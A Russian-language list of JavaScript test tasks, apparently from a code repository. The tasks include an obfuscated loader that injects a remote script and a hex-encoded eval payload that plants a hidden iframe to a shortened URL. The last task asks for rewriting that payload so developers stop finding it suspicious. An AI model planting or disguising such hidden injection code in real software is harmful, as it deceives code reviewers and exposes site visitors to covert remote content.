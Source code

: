 Здесь будет различная подборка тестовых заданий, которые я встречал. 


1) задание первое:
        раздуть код 
                name='foo';alert(window.name);
        до одного килобайта.

2) задание второе:
        Объяснить, с какого адреса данный код
                <script type="text/javascript" id="73901220182">
                (function(d,c,b,a,e){
                    with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
                    function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
                   [(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
                })("http://serve.oxystatic.com/init","script",document,[],73901220182)
                </script>
        подгрузит скрипт, и почему.

3) задание третье:
        Почему код по ссылке
          var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
        выглядит подозрительно?
        Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.
